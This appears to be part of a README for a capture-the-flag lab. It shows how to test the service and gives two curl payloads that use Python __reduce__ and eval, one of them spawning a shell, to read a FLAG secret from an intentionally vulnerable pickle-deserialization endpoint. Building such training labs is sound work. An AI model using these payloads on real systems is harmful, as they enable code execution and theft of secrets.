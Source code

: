 ### Health check
```bash
curl http://localhost/health
```

## Testing the CTF

### 1. Access the web interface
Open http://localhost in your browser

### 2. Test basic execution
```bash
curl -X POST http://localhost/execute --data-binary 'print("Hello"); 42'
```

### 3. Exploit the vulnerability

The working exploits (both capture the FLAG value):

**Multi-line class definition:**
```bash
curl -X POST http://localhost/execute --data-binary @- <<'EOF'
class FlagExploit:
    def __reduce__(self):
        import os
        return (eval, ("__import__('os').environ.get('FLAG', 'No flag')",))

FlagExploit()
EOF
```

**One-liner alternative:**
```bash
curl -X POST http://localhost/execute --data-binary @- <<'EOF'
type('E', (), {'__reduce__': lambda s: (eval, ("__import__('subprocess').check_output(['sh', '-c', 'echo -n $FLAG']).decode()",))})()
EOF
```

## Security Considerations

### What's Protected
- Container escape via privilege escalation (no-new-privileges, non-root user)
- Kernel exploits (AppArmor, Seccomp profiles)
- Resource exhaustion (CPU, memory, PID limits)
- Filesystem persistence (read-only root filesystem)
- Binary exploitation (no setuid/setgid binaries)
- Capability-based attacks (all capabilities dropped except networking)

### What's Intentionally Vulnerable
- Pickle deserialization in the application logic (by design for CTF)
- The FLAG environment variable is accessible to the application

